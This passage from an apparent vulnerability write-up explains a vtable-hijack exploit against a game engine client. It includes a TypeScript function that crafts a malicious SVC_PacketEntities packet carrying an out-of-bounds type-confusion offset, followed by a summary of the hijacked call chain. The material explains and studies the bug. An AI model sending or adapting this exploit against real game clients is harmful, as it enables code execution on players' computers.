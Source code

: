 Now we have a candidate location to point our vtable pointer. We just have to point it at `&tickcount - 24` and the engine will believe that `tickcount` is the function that should be called in the vtable. After a bit of testing, here's the resulting script which creates and sends the `SVC_PacketEntities` packet to the client to trigger the exploit:

```typescript
// craft the netmessage for the PacketEntities exploit
function SendExploit_PacketEntities(bf: bf_write, offset: number) {
    bf.WriteUBitLong(svc_PacketEntities, NETMSG_BITS)

    // Max entries
    bf.WriteUBitLong(0, 11)

    // Is Delta?
    bf.WriteBit(0)

    // Baseline?
    bf.WriteBit(0)

    // # of updated entries?
    bf.WriteUBitLong(1, 11)

    // Length of update packet?
    bf.WriteUBitLong(55, 20)

    // Update baseline?
    bf.WriteBit(0)

    // Data_in after here
    bf.WriteUBitLong(3, 2) // our data_in is of type 32-bit integer

    // >>>>>>>>>>>>>>>>>>>> The out of bounds type confusion is here <<<<<<<<<<<<<<<<<<<<
    bf.WriteUBitLong(offset, 32)

    // enterpvs flag
    bf.WriteBit(0)

    // zero for the rest of the packet
    bf.WriteUBitLong(0, 32)
    bf.WriteUBitLong(0, 32)
    bf.WriteUBitLong(0, 32)
    bf.WriteUBitLong(0, 32)
    bf.WriteUBitLong(0, 32)
    bf.WriteUBitLong(0, 32)
    bf.WriteUBitLong(0, 32)
    bf.WriteUBitLong(0, 32)
}
```

Now we've got the following modified chain:

- Call `GetClientNetworkable` to get `pEnt`, which we will fake to point to `&m_pszString`.
- The code dereferences the first value inside of `m_pszString` to get the pointer to the vtable. We point this at `&tickcount - 6*4` which we control.
- The code offsets the vtable to index 6, dereferences, and calls the "function", which will be the value we put in `tickcount`. 
